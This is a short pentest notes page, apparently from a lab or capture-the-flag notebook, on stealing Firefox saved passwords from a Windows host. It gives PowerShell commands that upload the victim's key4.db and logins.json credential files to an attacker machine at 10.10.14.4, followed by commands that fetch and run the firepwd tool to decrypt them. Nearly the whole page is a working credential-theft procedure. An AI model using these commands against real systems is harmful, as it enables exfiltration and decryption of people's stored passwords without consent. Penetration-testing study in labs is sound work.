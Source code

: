 # Cracking Firefox Saved Passwords

In Winpeas:

<figure><img src=".gitbook/assets/image (357).png" alt=""><figcaption><p>C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db</p></figcaption></figure>

Upload key4.db and logins.json to attacker's Kali:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://10.10.14.4/', 'C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db')
(New-Object System.Net.WebClient).UploadFile('http://10.10.14.4/', 'C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json')
```

Decrypt firefox saved passwords:

```
wget https://raw.githubusercontent.com/lclevy/firepwd/master/firepwd.py
wget https://raw.githubusercontent.com/lclevy/firepwd/master/requirements.txt
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
python3 firepwd.py
```

<figure><img src=".gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>
